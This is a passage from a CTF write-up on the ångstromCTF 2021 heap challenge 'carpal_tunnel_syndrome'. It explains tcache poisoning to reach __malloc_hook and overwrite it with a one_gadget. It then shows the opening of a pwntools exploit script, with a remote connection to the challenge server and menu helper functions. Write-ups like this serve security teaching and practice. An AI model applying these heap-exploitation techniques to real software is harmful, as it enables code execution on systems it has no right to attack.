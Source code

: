 We set our marker to be the address of `__malloc_hook` and mark (1, 1).

Tcache: `HEAD -> [chunk at (1, 1) on the heap] -> [__malloc_hook]`

However, we don't delete (free) the chunks. We now make our name the size of Slot to pull one out from the tcache. We repeat the process to get a chunk at `__malloc_hook`, which we can then write to using our marker.

I chose to use a one_gadget. After inspecting the registers, I decided to use the `0xe6c81` gadget.


The byte-by-byte leak takes quite a while on remote, especially if you have high ping to AWS US EAST. There is no timeout though, so you can just let it run.

```python
from pwn import *

e = ELF("./carpal_tunnel_syndrome")
libc = ELF("./libc-2.31.so")
#ld = ELF("./ld-2.31.so")

context.binary = e
context.terminal = ["konsole", "-e"]

p = process([e.path])
p = remote("pwn.2021.chall.actf.co", 21840)




def mark(x, y):
    p.sendlineafter(": ", "1")
    p.sendlineafter(": ", "{} {}".format(x, y))
    
def view(x, y):
    p.sendlineafter(": ", "2")
    p.sendlineafter(": ", "{} {}".format(x, y))


def reset(i, c):
    p.sendlineafter(": ", "3")
    p.sendlineafter(": ", str(i))
    p.sendlineafter(": ", ["r", "c"][c])


def check_specific(i, c):
    p.sendlineafter(": ", "4")
    p.sendlineafter(": ", str(i))
    p.sendlineafter(": ", ["r", "c"][c])

def check(c, l, n):
    p.sendlineafter(": ", "5")
    p.sendlineafter("? ", ["n", "y"][c])
    p.sendlineafter(": ", str(l))
    p.sendlineafter(": ", n)
    

def change(m):
    p.sendlineafter(": ", "6")
    p.sendafter(": ", str(m))



context.log_level="debug"


```